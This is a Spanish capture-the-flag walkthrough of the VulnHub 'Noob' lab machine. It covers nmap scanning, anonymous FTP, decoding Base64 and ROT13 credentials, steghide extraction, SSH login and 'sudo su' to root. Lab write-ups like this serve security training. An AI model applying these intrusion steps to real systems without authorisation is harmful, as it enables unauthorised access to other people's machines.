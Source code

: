 ```yaml
---
icon: flag
---
```


# Noob VulnHub

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 09:51 EDT
Nmap scan report for 192.168.5.130
Host is up (0.00086s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              21 Sep 21  2021 cred.txt
|_-rw-r--r--    1 0        0              86 Jun 11  2021 welcome
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.5.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Login
55077/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:e8:ad:80:35:81:c4:29:7e:cf:e4:70:f2:69:d9:96 (RSA)
|   256 46:20:20:03:9c:97:35:f6:2d:5d:62:4a:be:6c:95:8e (ECDSA)
|_  256 ae:90:88:f6:63:8d:dc:60:fa:ff:fc:70:12:e4:f4:1f (ED25519)
MAC Address: 00:0C:29:8E:97:76 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.87 ms 192.168.5.130

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.70 seconds
```

### ftp

```shell
ftp anonymous@<IP>
```

Info:

```
-rw-r--r--    1 0        0              21 Sep 21  2021 cred.txt
-rw-r--r--    1 0        0              86 Jun 11  2021 welcome
```

Dentro de `cred.txt` habra una Base64...

```
Y2hhbXA6cGFzc3dvcmQ=
```

Decodificado seria...

```
champ:password
```

Estas credenciales las ingresamos en el Puerto 80 en la pagina web y nos redirigira a otra pagina web...

Si le damos a la pestaña `About Us` nos descargara un download.rar, que si lo extraemos, extraera 3 archivos...

```
funny.jpg
funny.bmp
sudo
```

Si abrimos sudo nos pone...

```
Did you notice the file name? Isn't is interesting?
```

Por lo que utilizamos `steghide` para ver lo que contiene la imagen `.bmp` y utilizamos como salvoconducto la palabra `sudo`...

```shell
steghide extract -sf funny.bmp

#Salvoconducto
sudo
```

Nos extraera un `user.txt`...

```
jgs:guvf bar vf n fvzcyr bar
```

Descifrado...

```
wtf:this one is a simple one

User: wtf
Password: this one is a simple one
```

Entrando al `ssh` seria...

```shell
ssh wft@<IP> -p 55077
```

Y si hacemos `sudo -l` veremos que tenemos todos los privilegios...

```
Matching Defaults entries for wtf on wtf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wtf may run the following commands on wtf:
    (ALL : ALL) ALL
```

```shell
sudo su
```

Ya seriamos `root`...

> root.txt (flag\_ultima)

```
RW5kb3JzZSBtZSBvbiBsaW5rZWRpbiA9PiBodHRwczovL3d3dy5saW5rZWRpbi5jb20vaW4vZGVlcGFrLWFoZWVyCg==

Follow me on Twitter https://www.twitter.com/Deepakhr9

TryHackMe --> https://www.tryhackme.com/p/Malwre99
Github --> https://www.github.com/Deepak-Aheer
(the flag is my LinkedIn username)


        THANK YOU for PLAYING THIS CTF

        But REMEMBER we're still N00bs ;)
```
